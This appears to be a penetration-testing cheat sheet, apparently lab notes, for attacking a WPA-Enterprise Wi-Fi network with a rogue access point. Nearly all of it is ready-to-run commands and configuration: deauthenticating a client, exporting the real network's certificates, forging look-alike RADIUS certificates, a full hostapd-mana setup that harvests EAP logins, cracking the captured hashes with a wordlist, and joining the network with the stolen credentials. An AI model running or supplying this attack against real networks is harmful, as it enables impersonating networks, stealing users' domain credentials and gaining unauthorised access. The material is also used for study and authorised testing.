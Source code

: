 ```yaml
---
description: WPA-Enterpise rogue AP attack
---
```


# WPA-MGT

### Setup

{% code overflow="wrap" %}
```
sudo airmon-ng check kill

sudo airmon-ng start wlan0
```
{% endcode %}

### [Reconnaissance](../#reconnaissance)

{% code overflow="wrap" %}
```
sudo airodump-ng wlan0mon
```
{% endcode %}

{% hint style="info" %}
Gather `CH` `ESSID` `BSSID` & Clients ; `AUTH MGT` = WPA Enterprise
{% endhint %}

#### Capture + output as recon-01.pcap

{% code overflow="wrap" %}
```
# -c channel -w output filename = recon-0#
sudo airodump-ng -c # --essid AP_NAME --bssid XX:XX:XX:XX:XX:XX -w recon --output-format pcap wlan0mon
```
{% endcode %}

#### May deauth a client once to get reconnection for cert info

{% code overflow="wrap" %}
```
#-a AP -c Client
sudo aireplay-ng -0 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```
{% endcode %}

#### Review the traffic / recon-01.pcap to get cert info

{% code overflow="wrap" %}
```
#wireshark filter

tls.handshake.type == 11,3
# or 
tls.handshake.certificate
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>Extensible Authentication Protocol > Transport Layer Security > TLSv1 Record Layer: Handshake Protocol: Certificate > Handshake Protocol: Certificate > Certificates > Certificate</p></figcaption></figure>

{% hint style="info" %}
**for each certificate (2)**, we `right click and select Export Packet Bytes` to save the data into a file with a `.der` extension
{% endhint %}

#### Review cert info

{% code overflow="wrap" %}
```

openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```
{% endcode %}

### Preparation

#### Edit freeradius cert config (as root user)

<pre data-overflow="wrap"><code><strong># /etc/freeradius/3.0/certs/ca.cnf (ca@xx.com)
</strong>
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
</code></pre>

```
# /etc/freeradius/3.0/certs/server.cnf (admin@xx.com)

[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
```

#### Create fake cert (as root user)

{% code overflow="wrap" %}
```
sudo su
cd /etc/freeradius/3.0/certs/
rm dh && make
#normal to receive error as we didn't config client.cnf as no need
```
{% endcode %}

### Setup rogue AP with hostapd-mana

#### Create `mana.conf` and `mana.eap_user` to `/etc/hostapd-mana/` (as root)

{% code overflow="wrap" %}
```
#/etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
{% endcode %}

{% code overflow="wrap" %}
```
#/etc/hostapd-mana/mana.conf

# SSID of the AP
ssid=Playtronics #########UPDATE##########

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1 #########UPDATE##########

# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g #2.4GHz, a if 5GHz#

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
{% endcode %}

#### Launch rogue AP

```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

{% hint style="info" %}
When a victim attempts to authenticate to our AP, the login attempt is captured in mana console
{% endhint %}

#### Retrieve credentials with asleap command provided by mana

```
# -W append wordlist to the asleap crack command
<asleap cmd> -W usr/share/john/password.lst
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>&#x3C;asleap cmd></p></figcaption></figure>

### Connect to the network with retrieved credentials

#### Create `wpa_supplicant.conf`&#x20;

{% code overflow="wrap" %}
```
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```
{% endcode %}

#### Connect to network

```
wpa_supplicant -c <config file>

sudo dhclient wlan0
```

### Get proof

```
curl http://192.168.1.1/proof.txt
```
